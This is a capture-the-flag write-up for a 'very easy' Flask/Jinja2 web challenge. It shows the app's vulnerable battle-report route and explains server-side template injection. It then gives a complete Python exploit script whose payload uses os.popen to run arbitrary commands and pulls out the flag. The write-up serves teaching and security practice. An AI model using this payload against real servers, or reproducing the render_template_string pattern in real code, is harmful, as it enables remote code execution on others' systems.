


# Trail By Fire

> As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria

**Difficulty:** Very easy  
**Source Code:** Provided  
**Techniques used:** SSTI in jinja2 application

This was the first challenge I tackled in this CTF. I started exactly at 10 AM on Friday, and it turned out to be a straightforward one.

At the file `challenge/application/blueprints/routes.py` in the route `/batlle-report` we can find out the exploit point:
`<p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>`

Well, there is another, but used this one.
```python 
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```

**Quick refresher:** SSTI stands for Server-Side Template Injectionis a vulnerability where the application interprets user-supplied data directly as commands within the template engine. In this case, the templating engine is Jinja2, widely used in Flask applications.

The correct approach would be to safely reference variables using `{{ }}` within `.html` files and render them via Flask's `render_template` method. However, the developer concatenated user-controlled input directly into the template string using `render_template_string`, allowing us to inject arbitrary Jinja2 code.

We can confirm this with `{{7*7}}`:


After confirming the vulnerability, I wrote the following Python script to exploit it:
```python
import argparse
import requests
import re

# Setup command line arguments
parser = argparse.ArgumentParser()
parser.add_argument("--url", type=str, default="http://localhost:1337", help="Target URL")
parser.add_argument("--cmd", type=str, default="cat flag.txt", help="Command to execute remotely")

args = parser.parse_args()
url = args.url
cmd = args.cmd

# Create a session to maintain cookies and session data
session = requests.session()

# Initiate session with warrior name (necessary for the app logic)
session.post(url + "/begin", data={"warrior_name": "aaaa"})

# Craft payload exploiting Jinja2 SSTI vulnerability
payload = f"{{{{self.__init__.__globals__.__builtins__.__import__('os').popen('{cmd}').read()}}}}"

# Send malicious payload to vulnerable endpoint
response = session.post(url + "/battle-report", data={"damage_dealt": payload})

# Extract the flag from the response using regex
match = re.search(r'HTB\{[A-Za-z0-9_]+\}', response.text)

# Print the flag if found, otherwise print response
if match:
    print(match.group())
else:
    print("No flag found.")
```

After running the script, the flag was successfully retrieved:  
